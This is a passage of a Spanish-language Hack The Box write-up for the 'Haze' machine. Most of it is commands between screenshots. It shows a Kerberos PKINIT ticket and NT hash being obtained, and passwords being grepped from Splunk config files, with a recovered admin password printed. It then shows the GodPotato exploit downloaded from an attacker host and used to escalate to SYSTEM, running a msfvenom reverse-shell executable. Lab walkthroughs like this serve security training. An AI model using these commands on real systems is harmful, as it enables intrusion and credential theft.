python3 /home/kali/Documents/HTB/haze/PKINITtools/gettgtpkinit.py -cert-pfx 0XZLDVcs.pfx -pfx-pass YEOcmHvhgdp2PQl9UBzz haze.htb/edward.martin edward.ccache
```



```zsh
export KRB5CCNAME=edward.ccache
```

```zsh
python3 /home/kali/Documents/HTB/certified/PKINITtools/getnthash.py -key 62672b5d1dd64d7e2cad72f1e50f283b58a6d1dab1a4e2ad4de37fffff4eff1e -dc-ip 10.10.11.61 haze.htb/edward.martin
```



## Privilege Escalation



```zsh
grep -r -i 'password =' .
```



```zsh
grep -r -i '\$1\$' .
```



Verificamos el archivo authentication.conf



[What-is-the-splunk-secret-file-and-is-it-possible-to-change-it](https://community.splunk.com/t5/Knowledge-Management/What-is-the-splunk-secret-file-and-is-it-possible-to-change-it/m-p/331207)

``$SPLUNK_HOME/etc/auth``



```
admin
Sp1unkadmin@2k24
```



[reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)



`whoami /all`


[Abusing Tokens](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=SeImpersonatePrivilege#seimpersonateprivilege)

[GodPotato Binary](https://github.com/BeichenDream/GodPotato/releases)

`iwr http://10.10.14.30/GodPotato-NET4.exe -o GodPotato-NET4.exe`

```powershell
./GodPotato-NET4.exe -cmd 'cmd /c  whoami'
```



Podemos cargar un shell.exe con msfvenom y ejecutarlo con msconsole

```powershell
./GodPotato-NET4.exe -cmd 'cmd /c C:\temp\shell.exe'
```

